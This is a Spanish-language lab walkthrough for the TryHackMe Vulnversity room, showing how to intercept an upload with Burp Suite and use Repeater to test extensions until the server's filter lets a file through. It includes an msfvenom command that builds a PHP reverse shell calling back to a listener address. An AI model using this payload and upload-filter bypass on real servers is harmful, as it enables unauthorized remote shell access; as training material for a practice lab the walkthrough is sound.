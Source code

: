 Maquinas a utilizar **Kali Linux y Laboratorio de Try Hack Me Vulnversity** https://tryhackme.com/room/vulnversity  
  

Una vez hayamos interceptado una petición HTTP con burp suite, es posible que necesitemos realizar diversas comprobaciones dentro de una petición para encontrar la vulnerabilidad; y para ello disponemos del **repeater**. De tal forma que podremos modificar de forma cómoda las peticiones e ir enviándolas al servidor web para analizar sus respuestas.

  

- Vamos a aplicar antes de nada un pequeño ajuste dentro del navegador web.
    
    **Ajustes → Settings**
    
    **General→ Network Settings**
    
    **Manual proxy configuration**
    
    **HTTP Proxy: 127.0.0.1 Port: 8080**
    
      
    
- Activamos la interceptación en BurpSuite
    
    **Proxy → intercept on**
    
      
    
- Subimos el archivo malicioso que habíamos creado con el siguiente comando:
    
    ```Bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![[Imagenes/image 36.png|image 36.png]]
    
    ![[Imagenes/image 1 25.png|image 1 25.png]]
    

  

- **¿Qué pasaría si no se que extensión poner al archivo?**
    
    ![[Imagenes/image 2 24.png|image 2 24.png]]
    

  

- Para eso tenemos la opción de **Repeater.** Tenemos dos formas de acceder a Repeater.
    1. Haciendo un **clip derecho** y pulsar en **Send to Repeter**.
        
        ![[Imagenes/image 3 23.png|image 3 23.png]]
        

1. Pulsando **CTRL+R**

  

- Haciendo esto hemos enviado la petición al apartado Repeater.
    
    ![[Imagenes/image 4 22.png|image 4 22.png]]
    
      
    
    Si cambiar nada pulsamos enviamos la petición pulsando el botón **Send,** vemos que nos llega la respuesta. Y podemos observar que nos devuelve Extensión no permitida.
    
    ![[Imagenes/image 5 21.png|image 5 21.png]]
    

Podemos ir probando distintas extensiones y ver si la respuesta cambia. Por ejemplo vamos a ponerle extensión TXT la enviamos.

![[Imagenes/image 6 19.png|image 6 19.png]]

Lo interesante aquí es **probar extensión por extensión hasta acertar**.

![[Imagenes/image 7 17.png|image 7 17.png]]

Aquí lo hemos hecho con extensiones pero podríamos probar con cualquier parámetro de la petición hasta acertar que nos permita el cambio.

  

- Nos vamos al **apartado de proxy** le ponemos la **extensión correcta** que hemos averiguado con el Repeater y le daríamos a **Forward.**
